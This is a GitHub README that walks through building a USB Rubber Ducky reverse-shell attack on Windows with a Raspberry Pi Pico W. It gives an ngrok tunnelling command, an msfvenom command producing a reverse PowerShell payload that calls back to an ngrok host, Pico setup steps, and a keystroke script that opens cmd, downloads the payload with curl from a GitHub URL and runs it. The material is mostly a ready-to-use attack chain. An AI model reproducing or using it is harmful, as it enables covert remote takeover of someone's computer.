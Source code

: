 # Reverse-shell-by-usb-rubber-ducky
## Introduction
A reverse shell is a type of shell in which the target machine communicates back to the attacker's machine. It is a technique often used in hacking and penetration testing for remote access to a system<br><br>
The USB Rubber Ducky is a type of programmable USB device which looks like a regular USB flash drive, but it's designed to function as a keyboard emulator. When plugged into a computer, the USB Rubber Ducky can quickly type pre-programmed keystroke payloads, essentially simulating a human typing at a very fast rate.
## Payload for reverse shell
To obtain a reverse shell from a target machine, you can utilize the MSFVenom tool to generate a Windows reverse PowerShell payload. This payload will allow you to establish a connection back to your machine, giving you remote access to the target system<br><br>
For port forwarding
```ngrok tcp 8080```<br><br>
![ngrok](https://github.com/aayushdangol16/Reverse-shell-by-rubber-ducky/blob/main/ngrok.png)<br><br>
![ngrok1](https://github.com/aayushdangol16/Reverse-shell-by-rubber-ducky/blob/main/ngrok1.png)<br><br>
Generate windows reverse PowerShell payload<br>
```msfvenom -p cmd/windows/reverse_powershell lhost=0.tcp.in.ngrok.io lport=10448 > ayush.bat ```<br><br>
![msf](https://github.com/aayushdangol16/Reverse-shell-by-rubber-ducky/blob/main/msf.png)
## Rasberry pi pico w as rubber ducky
1. Clone the repo to get a local copy of the files. `git clone https://github.com/dbisu/pico-ducky.git`
2. Download [CircuitPython for the Raspberry Pi Pico W](https://circuitpython.org/board/raspberry_pi_pico_w/). *Updated to 8.0.0
3. Plug the device into a USB port while holding the boot button. It will show up as a removable media device named `RPI-RP2`.
4. Copy the downloaded `.uf2` file to the root of the Pico (`RPI-RP2`). The device will reboot and after a second or so, it will reconnect as `CIRCUITPY`.
5. Download `adafruit-circuitpython-bundle-8.x-mpy-YYYYMMDD.zip` [here](https://github.com/adafruit/Adafruit_CircuitPython_Bundle/releases/latest) and extract it outside the device.
6. Navigate to `lib` in the recently extracted folder and copy `adafruit_hid` to the `lib` folder on your Raspberry Pi Pico.
7. Copy `adafruit_debouncer.mpy` and `adafruit_ticks.mpy` to the `lib` folder on your Raspberry Pi Pico.
8. Copy `asyncio` to the `lib` folder on your Pico.
9. Copy `adafruit_wsgi` to the `lib` folder on your Pico.
10. Copy `boot.py` from your clone to the root of your Pico.
11. Copy `duckyinpython.py`, `code.py`, `webapp.py`, `wsgiserver.py` to the root folder of the Pico.
## Setting up an attacker server and a Ducky script
Upload the Windows reverse PowerShell payload (ayush.bat) to your server; in my case, I have uploaded it to GitHub.<br><br>
Create Ducky script
```
DELAY 3000
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 200
STRING cd OneDrive 
ENTER
DELAY 200
STRING cd Desktop
ENTER
DELAY 200
STRING curl "https://raw.githubusercontent.com/aayushdangol16/payload/main/ayush.bat" > ayush.bat
ENTER
DELAY 300
STRING ayush.bat 
ENTER

```
